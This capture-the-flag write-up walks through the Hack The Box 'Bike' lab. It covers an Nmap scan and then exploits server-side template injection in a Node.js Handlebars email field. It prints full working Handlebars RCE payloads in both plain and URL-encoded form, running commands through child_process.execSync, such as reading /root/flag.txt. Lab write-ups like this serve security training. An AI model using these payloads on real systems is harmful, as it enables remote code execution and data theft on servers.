 
## Reconnaissance

Kicking off with a simple Nmap scan...

__Nmap Scan__
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/bike]
└─$ sudo nmap -sC -sV -oN nmap.txt 10.129.50.86  
[sudo] password for darshan: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-21 02:00 EST
Nmap scan report for 10.129.37.72
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  tcpwrapped
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan 21 02:00:12 2023 -- 1 IP address (1 host up) scanned in 63.42 seconds
                                                  
```

On visiting the web page on port 80, there was just one input box to input email and submit it.

![bike-1](https://user-images.githubusercontent.com/87711310/214776916-7cd5f067-fc48-4941-89ad-46a0426405c9.png)

I used `wappalyzer` to scan the site for information. `Wappalyzer` is installed as a browser extension so we just reload the main page.

![bike-2](https://user-images.githubusercontent.com/87711310/214776912-a0eb4020-4e51-4079-b905-6be1ab1ff472.png)

`Node.js` and `Python` web backend servers often make use of a software called `Template Engines`

With `Node.js` websites there is a good possibility that a Template Engine is being used to reflect the email.

Since, this website was using Template Engines, the first thing I decided to try was `SSTI`, this is because most `Template Engines` are vulnerable to `SSTI`.

I used a basic `SSTI` payload to check if the site is vulnerable to `SSTI`

```
{{7*7}}
```

And I got an error. But one important thing that I found was that at parser.parse the Template Engine being used is `Handlebars` and it is located in the `/root/backend` directory.

bike-3

So, I quickly googled `handlebar SSTI` and found out this [blog](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) from Mahmoud Gamal. 

Before using the exploit, I turned on `Burp`, Intercepted the request and sent it to the Repeater.

Then, I used the payload from the above mentioned blog, or you can get it from [hacktrickz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection) too

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

URL encoding the above payload, we get
```
```

I copied and pasted it in the `email` parameter on the intercepted request and I got an error.

Apparently, there was an issue with the website that stated `require is not defined`. I quickly googled to find out the fix for it.

So, I found out that `require` is a keyword in `javascript/node.js` and it is used to load code from other modules or files, thus it will not allow me to execute our payload

Now, the best site to use for fixing this error would be Node.JS[https://nodejs.org/en/docs/]. I listed all of the information I needed in order to make this exploit work, specifically `process`.

Reading through `nodejs.org` I find that the object process has a `maindmodule`, which is a good sign as it can get us the foothold we need in order to execute our payload properly.

Although the page listed the `process.maindolue` as deprecated, I still attempt it as it will give me the results I need.

So my final payload was
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

I URL encoded it using Burp Decoder.

```
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%70%72%6f%63%65%73%73%2e%6d%61%69%6e%4d%6f%64%75%6c%65%2e%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%6c%73%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

And sent the request, It did not actually tell me whoami but I try to run `ls` to see if it lists the files in the present working directory. And it worked!!

![bike-4](https://user-images.githubusercontent.com/87711310/214784788-47611f42-947e-4c38-92d7-5c53c45db6de.png)

So now to retrieve the flag, I just had to view the files of the root directory and hoepfully, I'll find the flag there

I used `ls /root` command inside the `execSync` to list the contents of the `/root` directory.

![bike-5](https://user-images.githubusercontent.com/87711310/214784797-b5a9fcd0-31c4-417c-b82e-00bf55a0e22e.png)

Similarly, we can get the flag using the `cat /root/flag.txt` in the payload instead of `ls /root` command

![bike-6](https://user-images.githubusercontent.com/87711310/214784803-416e9c23-fc43-4faa-ab29-1f06d0f54603.png)

And we can complete the challenge!!
